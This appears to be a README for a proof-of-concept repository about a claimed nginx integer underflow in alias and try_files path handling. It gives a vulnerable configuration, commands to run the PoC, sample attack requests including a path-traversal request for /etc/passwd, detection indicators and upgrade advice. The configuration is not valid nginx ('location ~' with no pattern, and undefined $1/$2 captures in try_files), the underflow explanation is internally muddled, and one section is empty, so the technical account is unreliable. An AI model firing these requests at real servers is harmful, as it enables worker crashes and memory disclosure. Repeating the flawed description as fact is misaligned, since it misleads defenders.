

<div align="center">

# CVE-2026-125283

### nginx — `alias` + `try_files` Integer Underflow via Map Captures


</div>

---

## Overview

An integer underflow in nginx's `alias` + `try_files` path-stripping arithmetic occurs when the `alias` directive is set to a variable derived from a `map` with unnamed regex captures. When the map variable is empty (no capture match) or the URI contains empty path segments, the computed strip length wraps below zero, causing nginx to read beyond the allocated URI buffer.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-125283 |
| **CVSS 3.1** | `5.3 Medium` — `AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:L` |
| **CWE** | CWE-191 (Integer Underflow) |
| **Component** | `ngx_http_alias_module` + `ngx_http_try_files` |
| **Affected** | nginx 0.9.6 – 1.31.8 |
| **Fixed** | nginx 1.30.7 / 1.31.9 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

When `alias` is set to a variable (`$asset_root`) derived from a `map` with unnamed regex captures, nginx computes the number of characters to strip from the request URI by subtracting the `location` prefix length from the URI length. If the map variable is empty (no capture match) or the URI contains empty path segments, the computed length wraps below zero as an unsigned integer, causing an out-of-bounds buffer read.

**Vulnerable configuration pattern:**
```nginx
map $uri $asset_root {
    ~^/assets/([^/]+)/(.*)$ /data/$1;
}
location ~ {
    alias      $asset_root/;
    try_files  /$2 /$1/$2 /fallback.html;
}
```

No backend service is required — the vulnerability is triggered entirely within nginx's request-handling pipeline.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. The vulnerability is triggered in nginx's request handling pipeline, no credentials required.

### Setup

```bash
docker compose up -d
sleep 2
```

### Run all trigger variants

```bash
python3 poc.py
```

Expected output — vulnerable nginx:
```
[*] target: 127.0.0.1:8080

Variant: empty_segment
  GET /assets//empty/file.js
  → Worker crash or unexpected response

Variant: no_capture_match
  GET /assets/../../etc/passwd
  → map produces empty $asset_root → underflow

Variant: boundary_length
  GET /assets/a/<URI at exact location prefix length>
  → Integer wrap: computed strip length = MAX_UINT

[!] VULNERABLE — integer underflow confirmed in alias+try_files path stripping
```

### Individual variants

```bash
python3 poc.py --variant empty_segment
python3 poc.py --variant no_capture_match
python3 poc.py --variant boundary_length
```

### Available flags

| Flag | Description |
|---|---|
| `--host HOST` | nginx host (default: `127.0.0.1`) |
| `--port PORT` | HTTP port (default: `8080`) |
| `--variant NAME` | Test specific variant (default: all) |
| `-n N` | Requests per variant (default: `50`) |
| `-v` | Verbose output |

### Expected output — patched build

```bash
sed -i 's/nginx:1.31.8/nginx:1.31.9/' nginx/Dockerfile
docker compose build --no-cache nginx && docker compose up -d
python3 poc.py
# All variants handled safely — 404 or fallback, no crash
# [+] NOT vulnerable
```

---

## Detection

| Indicator | Notes |
|---|---|
| nginx worker crash signal 11 | `nginx error.log`: "worker process exited on signal 11" |
| URIs with empty path segments to `alias` locations | Access log: double-slash `//` in URI paths |
| Unexpected `try_files` path resolution | nginx debug log: `try_files` resolving unexpected absolute paths |

---

## Impact

Unauthenticated partial information disclosure or Denial of Service (worker crash). The OOB read may expose adjacent heap memory in the nginx worker process, though reliable exploitation requires knowledge of the memory layout. Worker crash requires only a single request.

---

## Remediation

Upgrade to **nginx 1.30.7** or **1.31.9**.

| Action | Detail |
|---|---|
| Upgrade nginx | 1.30.7 (stable) or 1.31.9 (mainline) |
| Avoid variable alias | Use static `alias` paths where possible instead of map-derived variables |
| Normalize URI | Add `merge_slashes on` and URI normalization to prevent empty segment inputs |

---

## References

- nginx Security Advisories: https://nginx.org/en/security_advisories.html
- CWE-191: https://cwe.mitre.org/data/definitions/191.html
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-125283

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.